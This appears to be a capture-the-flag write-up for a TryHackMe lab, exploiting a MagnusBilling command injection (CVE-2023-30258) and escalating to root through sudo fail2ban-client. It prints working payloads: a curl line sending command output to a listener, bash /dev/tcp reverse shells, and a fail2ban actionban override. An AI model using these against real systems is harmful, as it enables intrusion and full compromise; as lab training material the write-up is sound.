<p align="center">
  
</p>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>Billing - <code>https://tryhackme.com/room/billing</code></td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code>sonyahack1</code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>10.05.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy 🟢</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td> Linux / PrivEsc / Web </td>
  </tr>
  <tr>
    <td align="left" ><b>🛠️ Tools</b></td>
    <td> nmap | curl | python | netcat </td>
  </tr>
  <tr>
    <td align="left" ><b>💀 Objectives</b></td>

    <td>
	<code>user flag</code><br>
	<code>root flag</code><br>
   </td>
  </tr>

</table>

</div>

## Attack Flow

- [Discovery](#discovery)
- [CVE-2023-30258](#cve-2023-30258)
- [proof on concept / foothold](#proof-on-concept--foothold)
- [privilege escalation](#privilege-escalation)

<h2 align="center"> ⚔️ Attack Implemented  </h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>

  <tbody>

   <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1133 - External Remote Services</b></td>
      <td>Using external-facing remote services to initially access via an OpenVPN configuration</td>
   </tr>

   <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059.004 - Command and Scripting Interpreter: Unix Shell</b></td>
      <td>Abuse unix commands for execution</td>
   </tr>

   <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching</b></td>
      <td>Abuse the sudoers file to elevate privileges</td>
   </tr>

   <tr>
      <td rowspan=2 align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>T1046 - Network Service Discovery</b></td>
      <td>Nmap scanning to get a listing of services running on remote hosts</td>
   </tr>
   <tr>
      <td align="left"><b>T1069.001 - Permission Groups Discovery: Local Groups</b></td>
      <td>Discovery local permission settings for user</td>
   </tr>

   <tr>
      <td align="left"><b>TA0008 - Lateral Movement</b></td>
      <td align="left"><b>T1210 - Exploitation of Remote Services</b></td>
      <td>Exploiting web service (Command Injection) to gain access to system</td>
   </tr>

   <tr>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>T1005 - Data from Local System</b></td>
      <td>search for local files</td>
   </tr>

   <tr>
      <td align="left"><b>TA0011 - Command and Control</b></td>
      <td align="left"><b>T1095 - Non-Application Layer Protocol</b></td>
      <td>Using a non-application layer protocol for communication with host via netcat</td>
   </tr>

  </tbody>
</table>

</div>

<h2 align="center"> 📝 Report </h2>

> [!IMPORTANT]
> `Initial access` to the internal lab network was established via a provided `OpenVPN configuration file (.ovpn)`, representing a simulated access path consistent with MITRE ATT&CK technique `T1133 (External Remote Services)`.
> Subsequent ATT&CK mappings focus on actions performed `after internal network access was established`.

```bash

sudo openvpn eu-central-1-sonyahack1-premium.ovpn

```

<p align="center">
 
</p>

### Discovery

> We begin by gathering information about the target. First, we perform a port scan using the following script:

```bash

#!/usr/bin/env bash

set -euo pipefail

ip="${1:-}"

if [[ -z "$ip" ]]; then
  echo "Usage: $0 <ip>"
  exit 1
fi

echo "[*] Scanning all ports on $ip"

open_ports=$(sudo nmap -p- --open --min-rate=1000 -T4 "$ip" | awk -F/ '/^[0-9]+\/tcp/ {print $1}' | paste -sd, -)

if [[ -z "$open_ports" ]]; then
  echo "[!] No open TCP ports found on $ip"
  exit 0
fi

echo "[+] Open ports: $open_ports"
echo "[*] Running service scan"

sudo nmap -sVC -vv -p"$open_ports" "$ip"

```

> The script operates in two stages:

- `1)` it first identifies open ports on the target;
- `2)` and then enumerates the services running on those ports.


```bash

./nmap_scan.sh 10.114.169.30
[*] Scanning all ports on 10.114.169.30
[sudo] password for sonyahack1:
[+] Open ports: 22,80,3306,5038
[*] Running service scan

```

<p align="center">
 
</p>

> Based on the scan results, the following open ports were identified:

- `22` - SSH service for remote access to the system;
- `80` - Apache web server;
- `3306` - `MySQL` database service;
- `5038` - `Asterisk AMI` (Asterisk Manager Interface), used for real-time management of the Asterisk PBX;

> The `MagnusBilling` application is hosted on port 80:

<p align="center">
 
</p>

> [!IMPORTANT]
> `MagnusBilling` - is a billing platform designed to manage VoIP calls and provide telephony services based on the `Asterisk PBX` system.

### CVE-2023-30258

> As previously confirmed, the default credentials for accessing the system were not valid. Further research revealed `CVE-2023-30258`, a `Command Injection` vulnerability affecting `MagnusBilling`:

<p align="center">
 
</p>

> [!IMPORTANT]
> `CVE-2023-30258` - allows an unauthenticated attacker to `execute arbitrary commands` on the server via command injection. The vulnerability is located in the `democ` component within `icepay.php` at `/lib/icepay/icepay.php`.
> The vulnerable code contains an `if-else` block that invokes the PHP `exec()` function, passing the user-controlled GET parameter `democ` directly into the command without proper sanitization or filtering:

<p align="center">
 
</p>

> Since the democ parameter is neither escaped nor sanitized, an attacker can inject arbitrary shell separators such as `;`, `|`, `&&` etc. These separators allow additional commands to be appended and executed
> by the operating system, resulting in `arbitrary remote command execution (RCE)` on the server.

### proof on concept / foothold

> Next, we will validate and confirm the presence of the `Command Injection` vulnerability.

> A `netcat` listener was started, and a simple POST request was sent using `curl`, containing the output of the `id` command. The following payload was supplied to the democ parameter (URL-encoded before being sent in the request):

```bash

null;id|curl -X POST -d@- 192.168.190.14:8081;null

```

<p align="center">
 
</p>

> The test successfully confirmed the `Command Injection` vulnerability in the `democ` parameter. The payload was then modified into a `reverse shell` command:

```bash

null;bash -c 'exec bash -i >& /dev/tcp/192.168.190.14/4141 0>&1';null

```

> As a result, remote access to the target system was obtained:

<p align="center">
 
</p>

> The `first flag` was retrieved from the home directory of the `magnus` user.

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 1</b><br/>
      <code>THM{**************}</code>
    </td>
  </tr>
</table>

</div>

### privilege escalation

> Next, we enumerate the current `sudo` policies applied to the `asterisk` user:

<p align="center">
 
</p>

> We can see that the current user (`asterisk`) is allowed to execute the `fail2ban-client` utility as any other user on the system, including `root`, without requiring a password.

> [!IMPORTANT]

> `fail2ban` - is a security service designed to protect systems against `brute-force` attacks. It monitors system `logs` for suspicious activity, such as repeated failed login attempts to the `Asterisk AMI service`
> running on port `5038` (in our case). When malicious activity is detected, `fail2ban` automatically applies defensive measures, such as blocking the attacker’s IP address using `firewall rules`. Its workflow can
> be summarized as follows: `log` -> `filter` -> `jail` -> `action`.

> In simple terms, `logs` are continuously written to log files, while `filters` contain sets of regular expressions used to identify specific activity within those logs. The `jail` component defines monitoring rules
> for `fail2ban`. A `jail` specifies which log file should be monitored, how many failed login attempts should be considered suspicious, and which `action` should be executed when the defined threshold is reached.
> The actual response executed by `fail2ban` is defined within the action configuration, which contains the commands triggered when a `jail` event occurs.

> [!IMPORTANT]
> `fail2ban-client` - is the management interface used to interact with the `fail2ban` daemon. In this case, it will be used to `Privilege Escalation` by modifying the configuration of a `jail rule`.

> Next, we list all currently active jails:

```bash

sudo /usr/bin/fail2ban-client status

```

<p align="center">
 
</p>

> Among the active rules, the `sshd` jail is responsible for protecting `SSH connections`. This is the jail that will be modified. The sshd jail uses the `iptables-multiport` action, which normally executes iptables
> commands to `block IP addresses`. The `iptables-multiport` action contains several configurable parameters such as: `actionstart`, `actionstop`, `actionban` etc. In this case, the `actionban` parameter will be modified:

```bash

sudo fail2ban-client set sshd action iptables-multiport actionban "bash -c 'exec bash -i >& /dev/tcp/192.168.190.14/4242 0>&1'"

```

> Once the modification is applied, the default iptables command inside the `actionban` parameter will be replaced with a `reverse shell payload`. A `netcat` listener must then be started on a separate terminal, after
> which the modified action `needs to be triggered in order to execute the payload`. For example, an IP address can be manually banned to force the execution of the `actionban` action:

```bash

sudo fail2ban-client set sshd banip 1.1.1.1

```

> When the rule is triggered, `fail2ban` executes the `modified actionban command`, resulting in a `reverse shell` connection being established `with root privileges`:

<p align="center">
 
</p>

> Full access to the system as the root user is successfully obtained.

> Finally the `last flag` is retrieved from the root user home directory:

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 flag 2</b><br/>
      <code>THM{**************}</code>
    </td>
  </tr>
</table>

</div>

> System is pwned!
